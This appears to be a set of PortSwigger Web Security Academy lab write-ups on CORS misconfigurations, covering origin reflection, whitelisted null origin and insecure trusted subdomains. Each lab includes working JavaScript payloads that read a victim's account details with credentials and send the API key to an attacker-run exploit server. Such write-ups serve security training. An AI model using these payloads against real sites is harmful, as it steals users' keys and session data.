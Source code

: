 ## **CORS vulnerability with basic origin reflection**

- Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
- Send the request to Burp Repeater, and resubmit it with the added header: Origin: [https://example.com](https://example.com/)

![Untitled](https://github.com/Lzmog/portswigger-labs/blob/main/images/cors/cors-1.png)

- Observe that the origin is reflected in the Access-Control-Allow-Origin header.
- In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

```jsx
<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get’,’https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='/log?key='+this.responseText;
	};
</script>
```

- Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
- Go back to the exploit server and click **Deliver exploit to victim**.
- Click **Access log**, retrieve and submit the victim's API key to complete the lab.

![Untitled](https://github.com/Lzmog/portswigger-labs/blob/main/images/cors/cors-2.png)

## **Errors parsing Origin headers**

*Mistakes often arise when implementing CORS origin whitelists. Some organizations decide to allow access from all their subdomains (including future subdomains not yet in existence).*

*For example, suppose an application grants access to all domains ending in:*

*normal-website.com*

*An attacker might be able to gain access by registering the domain:*

*hackersnormal-website.com*

*Alternatively, suppose an application grants access to all domains beginning with*

*normal-website.com*

*An attacker might be able to gain access using the domain:*

*[normal-website.com.evil-user.net](http://normal-website.com.evil-user.net/)*

## **Whitelisted null origin value**

```jsx
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
	var req = new XMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://0aca00c103f782c0c0fc4040003c00e2.web-security-academy.net/accountDetails',true);
	req.withCredentials = true;
	req.send();

	function reqListener() {
		location='https://exploit-0a8200de03bc82e0c0633ff701a100f1.exploit-server.net/log?key='+this.responseText;
	};
</script>"></iframe>
```

![Untitled](https://github.com/Lzmog/portswigger-labs/blob/main/images/cors/cors-3.png)

![Untitled](https://github.com/Lzmog/portswigger-labs/blob/main/images/cors/cors-4.png)

## **Breaking TLS with poorly configured CORS - CORS vulnerability with trusted insecure protocols**

*Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP. For example, when the application receives the following request:*

*GET /api/requestApiKey HTTP/1.1*

*Host: vulnerable-website.com*

*Origin: http://trusted-subdomain.vulnerable-website.com*

*Cookie: sessionid=...*

*The application responds with:*

*HTTP/1.1 200 OK*

*Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com*

*Access-Control-Allow-Credentials: true*

In Body:

```jsx
<script>

document.location="http://stock.0acc00d203b2cf08c183c137007400f2.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0acc00d203b2cf08c183c137007400f2.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a4f00fb0306cf99c157c0a8019f0025.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"

</script>
```

## **Intranets and CORS without credentials - CORS vulnerability with internal network pivot attack**

TBA